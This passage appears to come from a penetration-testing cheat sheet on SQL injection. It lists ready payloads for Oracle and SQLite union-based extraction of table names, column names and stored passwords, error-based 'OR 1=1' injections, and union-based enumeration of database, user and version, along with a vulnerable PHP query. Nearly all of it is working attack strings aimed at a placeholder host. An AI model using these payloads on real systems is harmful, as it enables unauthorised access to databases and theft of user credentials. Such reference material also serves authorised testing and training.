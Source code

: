 ##### Get Column Name

```console
' union select null,column_name,null from all_tab_columns where table_name='<TABLE>'--
```

##### Dump Data

```console
' union select null,PASSWORD||USER_ID||USER_NAME,null from WEB_USERS--
```

#### SQLite

##### Extracting Table Names

```console
http://<RHOST>/index.php?id=-1 union select 1,2,3,group_concat(tbl_name),4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--
```

##### Extracting User Table

```console
http://<RHOST>/index.php?id=-1 union select 1,2,3,group_concat(password),5 FROM users--
```

### Error-based SQL Injection (SQLi)

```console
<USERNAME>' OR 1=1 -- //
```

Results in:

```console
SELECT * FROM users WHERE user_name= '<USERNAME>' OR 1=1 --
```

```console
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

### UNION-based SQL Injection (SQLi)

#### Manual Injection Steps

```console
$query = "SELECT * FROM customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

```console
' ORDER BY 1-- //
```

```console
%' UNION SELECT database(), user(), @@version, null, null -- //
```
